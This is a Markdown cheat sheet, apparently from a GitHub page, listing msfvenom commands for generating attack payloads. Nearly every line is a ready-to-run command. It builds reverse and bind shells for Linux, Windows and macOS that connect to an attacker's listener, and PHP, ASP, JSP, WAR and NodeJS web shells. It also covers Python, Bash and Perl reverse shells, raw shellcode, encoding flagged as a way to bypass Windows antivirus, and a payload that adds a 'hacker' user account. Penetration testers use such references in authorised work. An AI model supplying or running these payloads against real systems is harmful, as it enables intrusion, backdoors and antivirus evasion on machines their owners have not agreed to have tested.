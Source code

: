 # MSFVenom

## List payloads
```bash
msfvenom -l
msfvenom -l encoders # lists encoders
```
## Useful parameters
```bash
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 3 # Bypass Windows AV
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
## Binary Payloads
### Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > FILENAME.exe
```
### Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
### Mac Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
## Web payloads
### PHP Meterpreter Reverse TCP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```
### JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
### NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST<IP Address> LPORT=<Your Port> -f js > shell.js
```

## Scripting payloads
### Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
### Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
### Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```
## Shellcode
### Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
## Create user
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```